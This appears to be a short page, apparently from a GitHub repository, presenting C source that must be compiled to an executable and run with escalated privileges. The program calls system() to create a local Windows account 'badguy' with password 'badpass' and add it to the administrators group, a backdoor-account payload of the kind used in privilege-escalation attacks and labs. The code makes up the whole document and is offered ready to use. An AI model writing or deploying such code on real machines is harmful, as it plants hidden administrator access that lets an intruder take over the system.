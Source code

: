 Requires escalated privileges, must be compiled to exe.

Adds a user to the local machine and adds that user to the admin group.  

```c
#include <stdlib.h>

int main ()
{
        int i;

        i = system ("net user badguy badpass /add");
        i = system ("net localgroup administrators badguy /add");

                return 0;
}
```

